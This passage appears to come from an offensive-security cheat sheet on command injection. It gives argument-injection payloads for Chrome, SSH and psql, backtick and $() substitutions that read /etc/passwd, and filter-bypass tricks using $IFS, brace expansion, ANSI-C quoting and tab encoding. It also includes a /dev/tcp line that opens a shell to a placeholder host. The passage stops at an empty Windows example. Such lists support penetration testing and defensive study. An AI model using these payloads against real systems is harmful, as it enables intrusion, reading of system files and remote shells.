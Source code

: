 
### Argument Injection

Gain a command execution when you can only append arguments to an existing command.
Use this website [Argument Injection Vectors - Sonar](https://sonarsource.github.io/argument-injection-vectors/) to find the argument to inject to gain command execution.

* Chrome
    ```ps1
    chrome '--gpu-launcher="id>/tmp/foo"'
    ```

* SSH
    ```ps1
    ssh '-oProxyCommand="touch /tmp/foo"' foo@foo
    ```

* psql
    ```ps1
    psql -o'|id>/tmp/foo'
    ```


### Inside a command

* Command injection using backticks. 
  ```bash
  original_cmd_by_server `cat /etc/passwd`
  ```
* Command injection using substitution
  ```bash
  original_cmd_by_server $(cat /etc/passwd)
  ```


## Filter Bypasses

### Bypass without space

* `$IFS` is a special shell variable called the Internal Field Separator. By default, in many shells, it contains whitespace characters (space, tab, newline). When used in a command, the shell will interpret `$IFS` as a space. `$IFS` does not directly work as a seperator in commands like `ls`, `wget`; use `${IFS}` instead. 
  ```powershell
  cat${IFS}/etc/passwd
  ls${IFS}-la
  ```
* In some shells, brace expansion generates arbitrary strings. When executed, the shell will treat the items inside the braces as separate commands or arguments.
  ```powershell
  {cat,/etc/passwd}
  ```
* Input redirection. The < character tells the shell to read the contents of the file specified. 
  ```powershell
  cat</etc/passwd
  sh</dev/tcp/127.0.0.1/4242
  ```
* ANSI-C Quoting 
  ```powershell
  X=$'uname\x20-a'&&$X
  ```
* The tab character can sometimes be used as an alternative to spaces. In ASCII, the tab character is represented by the hexadecimal value `09`.
  ```powershell
  ;ls%09-al%09/home
  ```
* In Windows, `%VARIABLE:~start,length%` is a syntax used for substring operations on environment variables.
  ```powershell
  ```